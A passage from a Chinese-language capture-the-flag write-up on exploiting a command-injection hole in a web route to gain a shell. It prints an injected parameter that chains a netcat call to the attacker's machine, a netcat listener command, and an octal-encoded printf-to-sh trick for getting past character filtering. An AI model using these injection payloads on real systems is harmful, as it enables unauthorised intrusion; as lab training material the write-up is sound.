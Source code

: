 ![](img/604978e5eab83b7aa024619753dd4487.png)

在这里，我只是调用了易受攻击的路由，并将数据库参数传递为:

```
queues;echo+'abc'+|nc+10.10.14.4+4444
```

这个命令只是捕捉 *echo* 命令(‘ABC’)的输出，并通过 Netcat 发送给我的机器。重要的是，在请求这个路由之前，我需要通过键入以下命令来启动一个本地服务器:

```
nc -lnvp 4444
```

正如你在下面看到的，它是有效的:

![](img/9452179ec6d5601aa8d6bf8adb6750c8.png)

但是您可以注意到传递路径参数会导致失败。所以使用八进制方法是规范化这些字符并执行所有操作的更好方法。

基本上，事情是这样的:

**printf<octal _ enc _ str>只是一个打印函数，将八进制字符串打印成文本**

**| sh** 意味着我们将之前 *printf* 生成的输出重定向为 *sh* 程序的输入，所以现在我们将这个字符串作为外壳代码执行。

现在我们确切地知道了这里发生了什么，让我们来获取用户和根标志！首先，我将展示如何利用我们之前发现的 python 漏洞来利用它。然后，我们将通过使用 Netcat 获得一个 shell 来手动利用漏洞。

# 使用 Python 脚本

首先，让我们通过键入以下命令使用 Netcat 启动我们的本地监听器:

```
nc -lnvp 4444
```

现在让我们回到 *searchsploit* ，看看我们需要设置的脚本参数:

最后，执行它:

![](img/08bf42e584134a509fedb4ec747bf0b1.png)

好像剧本已经写完了。现在，让我们检查一下我们的服务器:

![](img/3422045cf3b02e9faa1bb96c98c72eab.png)
